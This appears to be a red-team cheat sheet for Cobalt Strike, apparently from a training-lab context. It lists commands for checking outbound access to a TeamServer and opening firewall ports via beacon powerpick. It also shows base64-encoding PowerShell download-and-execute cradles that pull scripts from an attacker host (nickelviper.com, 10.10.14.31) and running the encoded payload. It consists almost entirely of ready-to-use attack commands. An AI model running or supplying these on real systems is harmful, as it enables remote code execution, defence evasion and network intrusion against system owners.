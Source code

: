 Run a python3 webserver:
```bash
$ python3 -m http.server
```

Check outbound access to TeamServer:
```powershell
$ iwr -Uri http://nickelviper.com/a
```

Change incoming firewall rules
```powershell
beacon> powerpick New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080
beacon> powerpick Remove-NetFirewallRule -DisplayName "Test Rule"
```

Encode the powershell payload for handling extra quotes:

- Powershell:
```powershell
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```

- Linux:
```bash
$ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
```

- Finally
```powershell
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```

Use you can check open ports using Cobalt Strike:
```
portscan [ip or ip range] [ports]
```